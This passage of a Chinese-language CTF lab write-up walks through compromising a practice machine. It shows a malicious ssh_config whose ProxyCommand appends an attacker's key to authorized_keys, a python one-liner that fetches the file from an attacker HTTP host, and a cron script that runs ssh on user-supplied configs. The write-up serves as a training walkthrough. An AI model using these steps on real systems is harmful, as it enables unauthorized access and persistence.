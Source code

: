 [https://man.openbsd.org/ssh_config.5#ProxyCommand](https://man.openbsd.org/ssh_config.5#ProxyCommand)

[![](https://p2.ssl.qhimg.com/t01969a648dbdcee3cf.png)](https://p2.ssl.qhimg.com/t01969a648dbdcee3cf.png)

config文件构造如下：

```
Host *
  User freshness
  ControlMaster auto
  ControlPath /tmp/%r@%h:%p
  ControlPersist 4h
  TCPKeepAlive yes
  ServerAliveInterval 60
  ProxyCommand echo "ssh-rsa AAAAC3NzaC1l......qG+NefAdLUMUMEaHnPM" &gt;&gt; ~/.ssh/authorized_keys
```

把config文件写入到`/home/shared/`

```
python2 -c "import requests,os;a=requests.get('http://10.10.x.x/config');f=open('/home/shared/config','wb');f.write(a.content);f.close()"
```

按照之前的步骤进行RCE，本地开启http服务，利用vim RCE下载config文件，等待片刻后即可使用私钥登陆freshness的账号。至此，可获取到user.txt的flag。



## AuthorizedKeysCommand

下面到root部分，这是这个box最精彩的部分，获取user权限的师傅中，只有一半人成功提权。首先先翻一下home目录下的文件。

一个root发给freshness的邮件，附件为用config登录ssh的脚步，也就是上一步让我们成功RCE的脚步。

```
attended$ cat dead.letter
Date: Fri, 29 Jan 2021 04:29:20 +0100 (CET)
From: root (Cron Daemon)
To: freshness
Subject: Cron &lt;freshness@attended&gt; /home/freshness/fchecker.py
Auto-Submitted: auto-generated
X-Cron-Env: &lt;SHELL=/bin/sh&gt;
X-Cron-Env: &lt;HOME=/home/freshness&gt;
X-Cron-Env: &lt;LOGNAME=freshness&gt;
X-Cron-Env: &lt;USER=freshness&gt;

Pseudo-terminal will not be allocated because stdin is not a terminal.
kex_exchange_identification: Connection closed by remote host
```

```
#!/usr/local/bin/python2.7
import os,sys
import subprocess
import time

path = '/home/shared/'
command = '/usr/bin/ssh -l freshness -F %s 127.0.0.1'
for r, d, fs in os.walk(path):
        for f in fs:
                cfile = os.path.join(r, f)
                c = command % cfile
                #print "running %s" % c
                p = subprocess.Popen(c,shell=True)
                time.sleep(0.2)
                os.unlink(cfile)
```
